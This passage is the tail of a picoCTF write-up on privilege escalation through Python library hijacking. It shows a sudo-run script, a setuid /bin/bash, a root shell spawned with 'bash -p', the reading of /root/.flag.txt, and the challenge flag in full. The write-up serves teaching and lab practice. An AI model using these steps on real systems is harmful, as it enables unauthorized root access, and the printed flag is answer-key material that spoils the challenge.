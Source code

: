 **Let's run it again!**
```shell
picoctf@challenge:~$ sudo /usr/bin/python3 /home/picoctf/.server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname
```

**Although it still outputs an error, our payload should ran:**
```shell
picoctf@challenge:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.2M Apr 18  2022 /bin/bash
```

**Nice! Let's spawn a root Bash shell:**
```shell
picoctf@challenge:~$ /bin/bash -p
bash-5.0# whoami;hostname;id
root
challenge
uid=1000(picoctf) gid=1000(picoctf) euid=0(root) egid=0(root) groups=0(root),1000(picoctf)
bash-5.0# cat /root/.flag.txt 
picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}
```

I'm root! :D

- **Flag: `picoCTF{pYth0nn_libraryH!j@CK!n9_f56dbed6}`**

## Conclusion

What we've learned:

1. Vertical Privilege Escalation Via Python Library Hijacking